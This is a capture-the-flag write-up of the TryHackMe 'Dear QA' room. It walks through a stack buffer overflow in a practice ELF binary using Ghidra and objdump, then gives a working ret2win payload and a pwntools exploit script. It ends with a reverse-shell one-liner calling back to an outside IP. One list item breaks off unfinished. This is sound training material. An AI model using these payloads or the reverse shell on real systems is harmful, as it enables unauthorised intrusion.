 ```yaml
---
layout: post
title:  "Dear QA"
categories: [tryhackme]
tags: [linux,elf,BOF,ghidra,objdump]
---
```


You can find this machine here : https://tryhackme.com/room/dearqa

### Understanding the `DearQA.DearQA` binary

The `segmentation fault` means that the software has attempted to access a restricted area of memory.
This means that maybe there is a buffer overflow vulnerability

![image]( /assets/img/dearqa/1.PNG)

### Analyzing the `DearQA.DearQA` in Ghidra 

### Main Function

![image]( /assets/img/dearqa/2.PNG)

```c
undefined8 main(void)

{
  undefined local_28 [32];
  
  puts("Welcome dearQA");
  puts("I am sysadmin, i am new in developing");
  printf("What\'s your name: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_00400851,local_28);
  printf("Hello: %s\n",local_28);
  return 0;
}
```

### Vuln Function

![image]( /assets/img/dearqa/3.PNG)

```c
void vuln(void)

{
  puts("Congratulations!");
  puts("You have entered in the secret function!");
  fflush(stdout);
  execve("/bin/bash",(char **)0x0,(char **)0x0);
  return;
}
```

- The scanf is vulnerable to buffer overflow
- We know that the buffer size is 32 bytes, let's exploit it
- Also, we found the vuln function, our goal is to jump from the scanf to the vuln function
- This is possible by using the buffer overflow attack and call the address of the vuln function

### Finding the addresses using the objdump

```bash
objdump -d ./DearQA.DearQA
```

- main

```assembly
00000000004006c3 <main>:
  4006c3:       55                      push   %rbp
  4006c4:       48 89 e5                mov    %rsp,%rbp
  4006c7:       48 83 ec 20             sub    $0x20,%rsp
  4006cb:       bf 03 08 40 00          mov    $0x400803,%edi
  4006d0:       e8 4b fe ff ff          call   400520 <puts@plt>
  4006d5:       bf 18 08 40 00          mov    $0x400818,%edi
  4006da:       e8 41 fe ff ff          call   400520 <puts@plt>
  4006df:       bf 3e 08 40 00          mov    $0x40083e,%edi
  4006e4:       b8 00 00 00 00          mov    $0x0,%eax
  4006e9:       e8 42 fe ff ff          call   400530 <printf@plt>
  4006ee:       48 8b 05 1b 05 20 00    mov    0x20051b(%rip),%rax
  4006f5:       48 89 c7                mov    %rax,%rdi
  4006f8:       e8 73 fe ff ff          call   400570 <fflush@plt>
  4006fd:       48 8d 45 e0             lea    -0x20(%rbp),%rax
  400701:       48 89 c6                mov    %rax,%rsi
  400704:       bf 51 08 40 00          mov    $0x400851,%edi
  400709:       b8 00 00 00 00          mov    $0x0,%eax
  40070e:       e8 6d fe ff ff          call   400580 <__isoc99_scanf@plt>
  400713:       48 8d 45 e0             lea    -0x20(%rbp),%rax
  400717:       48 89 c6                mov    %rax,%rsi
  40071a:       bf 54 08 40 00          mov    $0x400854,%edi
  40071f:       b8 00 00 00 00          mov    $0x0,%eax
  400724:       e8 07 fe ff ff          call   400530 <printf@plt>
  400729:       b8 00 00 00 00          mov    $0x0,%eax
  40072e:       c9                      leave  
  40072f:       c3                      ret    
```


- The hex value `0x20` is 32 in decimal 

![image]( /assets/img/dearqa/4.PNG)

- So the following assembly is the same with this c language representation : `undefined local_28 [32];`

```bash
4006c7:       48 83 ec 20             sub    $0x20,%rsp
```

- After that the scanf uses the defined buffer size to read the user input
- So the following assembly is the same with this c language representation : `__isoc99_scanf(&DAT_00400851,local_28);`

```bash
40070e:       e8 6d fe ff ff          call   400580 <__isoc99_scanf@plt>
400713:       48 8d 45 e0             lea    -0x20(%rbp),%rax
```

- vuln

```assembly

0000000000400686 <vuln>:
  400686:       55                      push   %rbp
  400687:       48 89 e5                mov    %rsp,%rbp
  40068a:       bf b8 07 40 00          mov    $0x4007b8,%edi
  40068f:       e8 8c fe ff ff          call   400520 <puts@plt>
  400694:       bf d0 07 40 00          mov    $0x4007d0,%edi
  400699:       e8 82 fe ff ff          call   400520 <puts@plt>
  40069e:       48 8b 05 6b 05 20 00    mov    0x20056b(%rip),%rax
  4006a5:       48 89 c7                mov    %rax,%rdi
  4006a8:       e8 c3 fe ff ff          call   400570 <fflush@plt>
  4006ad:       ba 00 00 00 00          mov    $0x0,%edx
  4006b2:       be 00 00 00 00          mov    $0x0,%esi
  4006b7:       bf f9 07 40 00          mov    $0x4007f9,%edi
  4006bc:       e8 8f fe ff ff          call   400550 <execve@plt>
  4006c1:       5d                      pop    %rbp
  4006c2:       c3                      ret
```

- The address of `vuln` is 00400686 in hex.

```bash
0000000000400686 <vuln>:
```

### Local exploitation

The little endian format of `0000000000400686` is `\x86\x06\x40\x00\x00\x00\x00\x00`

### Explain the payload

1. "A"*32 to reach the maximum buffer capacity
2. "B"*8 to reach the RSP and put the address of the `vuln` function
3. The 

```bash
ruby -e 'print "A"*32 + "B"*8 + "\x86\x06\x40\x00\x00\x00\x00\x00"' | ./DearQA.DearQA
```

![image]( /assets/img/dearqa/5.PNG)

### Remote Exploitation

```bash
pip3 install pwntools
```

- final script

```python
from multiprocessing import context
from pwn import *


con = remote('10.10.115.156', 5700)

payload  = 'A'*32
payload += 'B'*8
payload += '\x86\x06\x40\x00\x00\x00\x00\x00'

con.recvuntil("What's your name: ")
con.sendline(payload)
con.interactive()
```

- in action & spawn revershe shell

```bash
python3 dearqa.py
sh -i >& /dev/tcp/10.18.45.56/4444 0>&1
```

![image]( /assets/img/dearqa/6.PNG)



